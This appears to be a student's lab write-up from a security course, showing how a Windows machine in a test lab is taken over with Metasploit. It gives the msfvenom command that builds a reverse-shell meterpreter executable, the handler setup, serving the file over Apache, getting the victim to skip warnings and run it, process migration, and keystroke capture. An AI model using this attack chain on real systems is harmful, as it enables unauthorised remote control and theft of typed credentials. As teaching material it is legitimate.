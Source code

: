 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
NAME: GRACIA RAVI(212222040047)
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## PROGRAM:

Find the attackers ip address using ifconfig
## Output:
![Screenshot 2024-10-28 155406](https://github.com/user-attachments/assets/7fb3d68e-8f57-488f-bc2c-92bbda026a8a)
Create a malicious executable file fun.exe using msenom command  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## Output:
![Screenshot 2024-10-28 155421](https://github.com/user-attachments/assets/e8fdbb95-3174-4fde-9038-7da81a66bb0a)
copy the fun.exe into the apache /var/www/html folder
![Screenshot 2024-10-28 155437](https://github.com/user-attachments/assets/d87dab41-b6b0-4647-9c2c-768feb45341c)

Start apache server sudo systemctl apache2 start
![Screenshot 2024-10-28 155451](https://github.com/user-attachments/assets/e8c70316-97bf-4ea0-816b-1ac7e353dd0e)
Check the status of apache2 sudo apache2 status
![Screenshot 2024-10-28 155537](https://github.com/user-attachments/assets/89f10144-5cf5-4b0e-b5e5-f81d538535b0)
Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
## Output
![374867868-108c6d73-63fc-415b-8b5d-5ddbeb7bdfb7](https://github.com/user-attachments/assets/c4b090c0-89b8-4b83-8999-b3010fbf9949)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads. 
![374867924-2d3c9bbd-30bf-4db7-8957-4760d26234a1](https://github.com/user-attachments/assets/fd6cf4ad-9f48-4976-92a6-39e92e09cad9)
Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit 
![374867950-3b6d33dd-159f-4798-926d-22dece021d73](https://github.com/user-attachments/assets/26cd1d8c-79c1-45c8-b70c-99a77fa8e219)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
# Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name. 
![374868025-70c71c8a-0ed9-42b7-a002-f07f1d50b459](https://github.com/user-attachments/assets/16edb9fa-6b4f-4f59-8255-30773597cfba)

keyscan_dump Shows the keystrokes captured so far
![374868055-1b9359f7-97a1-4452-9cd8-4abba68f2246](https://github.com/user-attachments/assets/1c6940f3-48f4-4140-97bd-ded02c042040)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
